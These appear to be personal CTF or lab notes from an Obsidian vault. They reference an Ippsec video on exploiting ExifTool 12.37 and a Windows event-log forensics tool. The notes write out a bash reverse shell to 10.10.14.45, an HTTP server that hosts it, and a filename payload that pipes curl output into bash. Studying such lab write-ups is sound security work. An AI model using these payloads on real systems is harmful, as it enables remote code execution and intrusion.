 ![](/assets/obsidian/2f5af8d2f5dcb998fb5ae1d66f2930fa.png)


# Additional
---

## Ippsec

> https://www.youtube.com/watch?v=X5hVEuWmehk


### Exploit Exiftool 12.37

Since `/` is a bad character, save the reverse shell to `index.html` then pipe to bash to avoid using paths

```bash
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.45/1111 0>&1' > index.html
python3 -m http.server 80
```

**Filename Payload**

```bash
curl 10.10.14.45 | bash |
```


### Chainsaw - Forensic Windows Event Log

- https://github.com/WithSecureLabs/chainsaw
